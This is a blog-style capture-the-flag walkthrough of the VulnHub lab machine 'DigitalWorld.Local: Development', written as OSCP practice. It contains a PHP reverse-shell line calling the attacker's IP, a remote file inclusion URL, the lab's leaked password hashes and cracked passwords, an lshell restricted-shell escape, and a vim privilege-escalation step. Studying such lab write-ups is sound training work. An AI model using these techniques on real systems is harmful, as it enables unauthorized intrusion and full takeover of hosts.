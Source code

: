 ```yaml
---
title: VulnHub DigitalWorld.Local - Development Walkthrough
date: 2023-05-22 23:45:00 +0530
img_path: /assets/img/vulnhub-dev-walkthrough
categories: [OSCP, walkthroughs, vulnhub, pentesting]
tags: [oscp, walkthroughs, vulnhub walkthroughs, development, vulnhub, pentesting, hacking]     # TAG names should always be lowercase
---
```


# DIGITALWORLD.LOCAL: DEVELOPMENT Walkthrough


Machine IP:
192.168.174.132

Domain:
dev.vh


```
This machine reminds us of a DEVELOPMENT environment: misconfigurations rule the roost. This is designed for OSCP practice, and the original version of the machine was used for a CTF. It is now revived, and made slightly more nefarious than the original.

If you MUST have hints for this machine (even though they will probably not help you very much until you root the box!): Development is (#1): different from production, (#2): a mess of code, (#3): under construction.

Note: Some users report the box may seem to be "unstable" with aggressive scanning. The homepage gives a clue why.

Feel free to contact the author at https://donavan.sg/blog if you would like to drop a comment.
```

## nmap
![nmap scan](Pasted%20image%2020230522225153.png)

## Enumeration
Can't use gobuster because there is appranetly a "Host intrusion detection system" that is just terminating the connection whenever rapid requests are made by gobuster.

Source code revealed `/development` page

http://dev.vh:8080/development
```
Under development we have a variety of projects.

/test.pcap: a simple bash script that allows Director, from the comfort of his desk, to be routinely fed network information. He can then employ a scraper to download the .pcap files to view at his own convenience.
/development.html: the landing page to our development secret page. Only insiders will know!
/registration: under construction.

We are also testing a very simple web-based log-in form, a HIDS called OSSEC (heard it is awesome) and some other developments.

The question is, do you know what to do? Try harder!
```

Downloaded `test.pcap` from http://dev.vh:8080/test.pcap

Found a "secret" page from the test.pcap
`/developmentsecretpage`
![Test.pacp](Pasted%20image%2020230522232451.png)

http://dev.vh:8080/developmentsecretpage/directortestpagev1.php

Found another page:
http://dev.vh:8080/developmentsecretpage/sitemap.php

Found a login page
![Login page](Pasted%20image%2020230522232935.png)

When tried to login with dummy creds:
![](Pasted%20image%2020230522232955.png)



Googling `slogin_lib.inc.php` shows a vulnerability in `Simple Text-File Login script (SiTeFiLo) 1.0.6 - File Disclosure / Remote File Inclusion`
https://www.exploit-db.com/exploits/7444

```txt
EXPLOIT: /[path]/slogin_lib.inc.php?slogin_path=[remote_txt_shell]
```

SiTeFiLo - the login is done from a simple text file. 

Vulnerable code:
```txt
[CODE] include_once ($slogin_path . "header.inc.php"); [/CODE]
```
Since the slogin_path variable is directly appended to the header.inc.php - we can create header.inc.php with a reverse shell code, host it on our server and make a request by putting slogin_path as our host.

header.inc.php
```
$sock=fsockopen("192.168.174.131",1560);system("sh <&3 >&3 2>&3");
```

http://dev.vh:8080/developmentsecretpage/slogin_lib.inc.php?slogin_path=http://192.168.174.131:8000/

Didn't work. We are not even getting a request to the python HTTP server for the file.

But there is another bug of Sensitive Data disclosure for the same SiTeFiLo. We can see the text file that contains the creds

```txt
[!] EXPLOIT: /[path]/slog_users.txt
```

http://dev.vh:8080/developmentsecretpage/slog_users.txt

```
admin, 3cb1d13bb83ffff2defe8d1443d3a0eb
intern, 4a8a2b374f463b7aedbb44a066363b81
patrick, 87e6d56ce79af90dbe07d387d3d0579e
qiu, ee64497098d0926d198f54f6d5431f98
```
Hashes cracked with hashes.com
![hashes.com](Pasted%20image%2020230523000101.png)


```
patrick:P@ssw0rd25
intern:12345678900987654321
qui:qiu
```
admin password could not be cracked.

SSH login worked for intern creds.

Shell is restricted.
![Restricted shell](Pasted%20image%2020230523000838.png)


Allowed commands:
![](Pasted%20image%2020230523000955.png)


This is a limited shell.
https://0xffsec.com/handbook/shells/restricted-shells/


![](Pasted%20image%2020230523001943.png)


The shell is `lsshell` https://github.com/ghantoos/lshell

The shell can be bypassed: https://www.aldeid.com/wiki/Lshell

![](Pasted%20image%2020230523002049.png)


Now we have a proper shell.
```
echo os.system('/bin/bash')
```


We can switch to patrick as we already have the password from before.
```
su patrick
```

![](Pasted%20image%2020230523003253.png)


vim and nano dont require password.

GTFO bins for vim: https://gtfobins.github.io/gtfobins/vim/

Spawn a new bash shell with vim
![](Pasted%20image%2020230523003344.png)


Ta-da! We root!
